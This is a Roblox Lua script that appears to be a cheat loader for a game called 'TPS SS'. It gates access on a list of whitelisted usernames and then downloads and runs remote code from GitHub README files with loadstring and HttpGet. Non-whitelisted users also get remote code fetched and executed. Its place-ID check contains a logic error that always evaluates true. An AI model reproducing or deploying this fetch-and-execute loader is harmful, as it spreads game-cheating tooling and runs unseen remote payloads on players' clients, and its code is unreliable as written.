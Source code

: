 local whitelist = {
    "ItzSwara31",
    "madridhayatimolmus", --1 hafta
    "Alexnimo2022",
    "Tpsciawain", 
    "252531_werza",
    "ablanidelim",
    "qazztr",
    "31cihasanxd",
    "azemessi3a",
    "arda",
    "Zzz_tps2",
    "2525israfil",
    "itsh0r",
    "tpsciawain", --me
    "harunisteaq9", 
    "EFREWFTEWT" -- giveaway winner
}

if table.find(whitelist, game.Players.LocalPlayer.Name) then
        local id = game.PlaceId
if id == 335760407 or 13762482705 then
game.StarterGui:SetCore("SendNotification",{
			Title = "Loading...";
			Text = "Loading will take some seconds...";
			Duration = 5;
})
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/dragyeni/main/README.md"))()
else
    game.Players.LocalPlayer:Kick("It's not TPS SS!")
end
else
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/kicked1/main/README.md"))();
end
